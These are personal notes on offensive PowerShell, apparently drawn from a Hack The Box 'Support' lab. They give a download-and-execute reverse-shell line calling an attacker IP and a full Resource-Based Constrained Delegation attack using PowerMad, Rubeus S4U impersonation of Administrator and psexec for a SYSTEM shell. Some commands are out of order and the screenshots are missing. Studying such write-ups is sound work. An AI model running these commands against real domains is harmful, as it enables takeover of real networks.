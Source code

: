 # Powershell

[nishang/Shells/Invoke-PowerShellTcp.ps1 at master · samratashok/nishang · GitHub](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

[RedTeam_CheatSheet.ps1 · GitHub](https://gist.github.com/jivoi/c354eaaf3019352ce32522f916c03d70)

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.120 -Port 9001 -- colocar um comando no final do ficheiro
Depois criar um http server com este ficheiro
Na maquina comprometida utilizar este comando para fazer o download e executar o ficheiro
powershell "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.120:8000/9002.ps1')"
```

From our previous enumeration we know that the support user is indeed a member of the
Authenticated Users group as well as the Shared Support Accounts group. We also know that the
Shared Support Accounts group has GenericAll privileges over the Domain Controller
( dc.support.htb ).
Let's check the value of the ms-ds-machineaccountquota attribute.
The output of the above command shows that this attribute is set to 10, which means each authenticated
domain user can add up to 10 computers to the domain.
Next, let's verify that the msds-allowedtoactonbehalfofotheridentity attribute is empty. To do so, we
need the PowerView module for PowerShell. We can upload it to the server via Evil-WinRM as shown
previously. We can then import it with the following command.
Once the module has been imported we can use the Get-DomainComputer commandlet to query the
required information.
Get-ADObject -Identity ((Get-ADDomain).distinguishedname) -Properties ms-DSMachineAccountQuota

![Untitled](Powershell%20552be6a53a754215a7cca1cd96489593/Untitled.png)

. ./PowerView.ps1
Get-DomainComputer DC | select name, msds-allowedtoactonbehalfofotheridentity

![2023-11-10 14_33_29-Support (1).pdf e mais 6 páginas - Pessoal - Microsoft​ Edge.png](Powershell%20552be6a53a754215a7cca1cd96489593/2023-11-10_14_33_29-Support_(1).pdf_e_mais_6_pginas_-_Pessoal_-_Microsoft_Edge.png)

The value is empty, which means we are ready to perform the RBCD attack, but first let's upload the tools
that are required. We will need PowerMad and Rubeus, which we can upload using Evil-WinRM as shown
previously. PowerMad can be imported with the following command.
Creating a Computer Object
Now, let's create a fake computer and add it to the domain. We can use PowerMad's New-MachineAccount
to achieve this.
The above command added a machine with the name FAKE-COMP01 to the domain with the password
Password123 . We can verify this new machine with the following command.
The output shows the details of FAKE-COMP01 and we can clearly see the SID value it was assigned.
Configuring RBCD
. ./Powermad.ps1
New-MachineAccount -MachineAccount FAKE-COMP01 -Password $(ConvertTo-SecureString
'Password123' -AsPlainText -Force)

![2023-11-10 14_33_51-Support (1).pdf e mais 6 páginas - Pessoal - Microsoft​ Edge.png](Powershell%20552be6a53a754215a7cca1cd96489593/2023-11-10_14_33_51-Support_(1).pdf_e_mais_6_pginas_-_Pessoal_-_Microsoft_Edge.png)

Get-ADComputer -identity FAKE-COMP01

![2023-11-10 14_34_04-Support (1).pdf e mais 6 páginas - Pessoal - Microsoft​ Edge.png](Powershell%20552be6a53a754215a7cca1cd96489593/2023-11-10_14_34_04-Support_(1).pdf_e_mais_6_pginas_-_Pessoal_-_Microsoft_Edge.png)

Next, we will need to configure Resource-Based Constrained Delegation through one of two ways. We can
either set the PrincipalsAllowedToDelegateToAccount value to FAKE-COMP01 through the builtin
PowerShell Active Directory module, which will in turn configure the msdsallowedtoactonbehalfofotheridentity attribute on its own, or we can use the PowerView module to
directly set the msds-allowedtoactonbehalfofotheridentity attribute.
For the purposes of this walkthrough we will use the former as it is a bit easier to understand. Let's use the
Set-ADComputer command to configure RBCD.
To verify that the command worked, we can use the Get-ADComputer command.
As we can see, the PrincipalsAllowedToDelegateToAccount is set to FAKE-COMP01 , which means the
command worked. We can also verify the value of the msds-allowedtoactonbehalfofotheridentity .

Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount FAKE-COMP01$

Get-ADComputer -Identity DC -Properties PrincipalsAllowedToDelegateToAccount

![Untitled](Powershell%20552be6a53a754215a7cca1cd96489593/Untitled%201.png)

Get-DomainComputer DC | select msds-allowedtoactonbehalfofotheridentity

![Untitled](Powershell%20552be6a53a754215a7cca1cd96489593/Untitled%202.png)

As we can see, the msds-allowedtoactonbehalfofotheridentity now has a value, but because the type
of this attribute is Raw Security Descriptor we will have to convert the bytes to a string to understand
what's going on.
First, let's grab the desired value and dump it to a variable called RawBytes .
Then, let's convert these bytes to a Raw Security Descriptor object.
Finally, we can print both the entire security descriptor, as well as the DiscretionaryAcl class, which
represents the Access Control List that specifies the machines that can act on behalf of the DC.
$RawBytes = Get-DomainComputer DC -Properties 'msdsallowedtoactonbehalfofotheridentity' | select -expand msdsallowedtoactonbehalfofotheridentity
$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList
$RawBytes, 0
$Descriptor
$Descriptor.DiscretionaryAcl

![Untitled](Powershell%20552be6a53a754215a7cca1cd96489593/Untitled%203.png)

From the output we can see that the SecurityIdentifier is set to the SID of FAKE-COMP01 that we saw
earlier, and the AceType is set to AccessAllowed .
Performing a S4U Attack
It is now time to perform the S4U attack, which will allow us to obtain a Kerberos ticket on behalf of the
Administrator. We will be using Rubeus to perform this attack.
First, we will need the hash of the password that was used to create the computer object.
.\Rubeus.exe hash /password:Password123 /user:FAKE-COMP01$ /domain:support.htb

![Untitled](Powershell%20552be6a53a754215a7cca1cd96489593/Untitled%204.png)

We need to grab the value called rc4_hmac . Next, we can generate Kerberos tickets for the Administrator.
rubeus.exe s4u /user:FAKE-COMP01$ /rc4:58A478135A93AC3BF058A5EA0E8FDB71
/impersonateuser:Administrator /msdsspn:cifs/dc.support.htb /domain:support.htb /ptt

![Untitled](Powershell%20552be6a53a754215a7cca1cd96489593/Untitled%205.png)

Rubeus successfuly generated the tickets. We can now grab the last Base64 encoded ticket and use it on our
local machine to get a shell on the DC as Administrator . To do so, copy the value of the last ticket and
paste it inside a file called ticket.kirbi.b64 .
Note: Before pasting the value to the file make sure to remove any whitespace characters from the value.
Next, create a new file called ticket.kirbi with the Base64 decoded value of the previous ticket.
Finally, we can convert this ticket to a format that Impacket can use. This can be achieved with Impackets'
[TicketConverter.py](http://ticketconverter.py/) .
base64 -d ticket.kirbi.b64 > ticket.kirbi
[ticketConverter.py](http://ticketconverter.py/) ticket.kirbi ticket.ccache

![Untitled](Powershell%20552be6a53a754215a7cca1cd96489593/Untitled%206.png)

To acquire a shell we can use Impackets' [psexec.py](http://psexec.py/) .
A shell as NT Authority\System is successfully received and the root flag can be found in
C:\Users\Administrator\Desktop .
KRB5CCNAME=ticket.ccache [psexec.py](http://psexec.py/) support.htb/administrator@dc.support.htb -k -no-pass

![Untitled](Powershell%20552be6a53a754215a7cca1cd96489593/Untitled%207.png)